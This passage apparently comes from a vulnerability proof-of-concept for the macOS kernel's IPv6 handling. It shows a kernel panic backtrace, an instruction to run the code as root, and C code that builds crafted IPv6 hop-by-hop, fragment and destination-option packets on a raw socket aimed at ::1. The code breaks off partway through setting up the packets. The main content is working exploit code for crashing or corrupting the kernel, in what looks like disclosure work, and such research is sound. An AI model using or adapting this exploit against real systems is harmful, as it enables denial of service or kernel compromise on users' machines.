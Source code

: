 ```
0xffffff80be07bf40 : 0xffffff800d82231e mach_kernel : _ifnet_datamov_end + 0x1fe
0xffffff80be07bfa0 : 0xffffff800d50113e mach_kernel : _call_continuation + 0x2e
```

Run this code as root:

```c
#include <errno.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <arpa/inet.h>
#include <net/if_var.h>
#include <netinet/ip6.h>

struct packet1 {
  struct ip6_hbh hbh;
  struct ip6_opt hbh_opt;
  uint8_t hbh_pad[4];
  struct ip6_frag frag;
  struct ip6_dest dest;
  struct ip6_opt dest_opt;
  uint8_t dest_pad[4];
};

struct packet2 {
  struct ip6_hbh hbh;
  struct ip6_opt hbh_opt;
  uint8_t hbh_pad[4];
  struct ip6_frag frag;
  struct ip6_opt dest_opt;
  uint8_t dest_pad[6];
  uint8_t payload[16];
};

int main(int argc, char *argv[]) {
  struct sockaddr_in6 daddr;
  struct packet1 packet1;
  struct packet2 packet2;
  int s, id, res;

  srand(time(NULL));
  id = rand();

  s = socket(AF_INET6, SOCK_RAW, IPPROTO_HOPOPTS);
  if (s < 0) {
    perror("socket");
    return 1;
  }

  memset(&daddr, 0, sizeof(daddr));
  daddr.sin6_family = AF_INET6;
  daddr.sin6_port = 0;
  inet_pton(AF_INET6, "::1", &daddr.sin6_addr);

  memset(&packet1, 'A', sizeof(struct packet1));
  packet1.hbh.ip6h_nxt = IPPROTO_FRAGMENT;
  packet1.hbh.ip6h_len = 0;
  packet1.hbh_opt.ip6o_type = IP6OPT_PADN;
  packet1.hbh_opt.ip6o_len = 4;
  packet1.frag.ip6f_nxt = IPPROTO_DSTOPTS;
  packet1.frag.ip6f_reserved = 0;
  packet1.frag.ip6f_offlg = htons(0) | IP6F_MORE_FRAG;
```